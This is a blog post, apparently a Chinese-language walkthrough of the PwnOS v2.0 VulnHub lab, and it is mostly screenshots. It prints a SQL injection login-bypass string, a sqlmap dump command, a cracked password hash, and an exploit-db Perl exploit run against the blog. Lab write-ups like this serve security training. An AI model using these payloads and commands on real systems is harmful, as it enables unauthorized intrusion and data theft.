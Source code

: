 ```yaml
---
layout: post
title:  "PwnOS_v2.0"
description: walkthrough
category: vulnhub
---
```

# PwnOS_v2.0

![image-20200610201133904]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201133904.png)

![image-20200610201312543]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201312543.png)





nikto

![image-20200610201535808]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201535808.png)

![image-20200610201652233]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610201652233.png)





![image-20200610205402607]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610205402607.png)

```bash
admin' or '1'='1'#
```

![image-20200610205559588]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610205559588.png)

登录无内容，保存登录包到文件，执行sqlmap注入

```bash
sqlmap -r login.txt  -dump
```



![image-20200610212725066]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610212725066.png)

`c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

![image-20200610212952414]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610212952414.png)

`killerbeesareflying`

另一页面

![image-20200610215354192]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215354192.png)



![image-20200610215318888]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215318888.png)

searchsploit

![image-20200610215953606]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215953606.png)

![image-20200610220014421]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220014421.png)



```bash
perl 1191.pl -h http://10.10.10.100/blog/ -e 3 -U evil -P evil
```

![image-20200610215918661]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610215918661.png)

![image-20200610220117364]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220117364.png)

![image-20200610220413203]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610220413203.png)



![image-20200610221755087]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221755087.png)



![image-20200610221048765]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221048765.png)



![image-20200610221833155]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610221833155.png)

上传LinEnum到目标可写的/tmp，并执行

![image-20200610223726170]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610223726170.png)



![image-20200610224133592]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610224133592.png)



![image-20200610222729375]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222729375.png)

![image-20200610222755529]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222755529.png)

![image-20200610222829813]({{ site.url }}/assets/PwnOS_v2.0.assets/image-20200610222829813.png)